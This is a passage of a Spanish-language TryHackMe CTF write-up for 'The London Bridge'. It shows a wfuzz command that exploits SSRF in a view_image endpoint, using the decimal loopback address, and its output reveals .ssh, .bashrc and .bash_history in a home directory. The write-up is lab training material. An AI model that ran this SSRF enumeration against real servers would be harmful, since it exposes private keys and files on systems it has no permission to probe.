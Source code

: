 ![](../assets/img/the_london_bridge-tryhackme-writeup/8.png)

Ejecutamos nuevamente **wfuzz** para enumerar potenciales ficheros y directorios alojados en el servidor, logramos descubrir el directorio *.ssh*:
```python
> wfuzz -c -t 20 --hw 37 -X POST --hc 404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-files.txt -d "www=http://2130706433/FUZZ" "http://10.10.110.17:8080/view_image"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.110.17:8080/view_image
Total requests: 11424

=====================================================================
ID           Response   Lines    Word       Chars       Payload                    
=====================================================================

000000061:   200        36 L     161 W      1270 Ch     "index.html"               
000000371:   200        36 L     161 W      1270 Ch     "."                        
000000539:   200        17 L     35 W       474 Ch      ".cache"                   
000002194:   200        16 L     33 W       399 Ch      ".ssh"                     
000003767:   200        117 L    518 W      3771 Ch     ".bashrc"                  
000004134:   200        7 L      35 W       220 Ch      ".bash_logout"             
000004613:   200        0 L      0 W        0 Ch        ".bash_history"
```
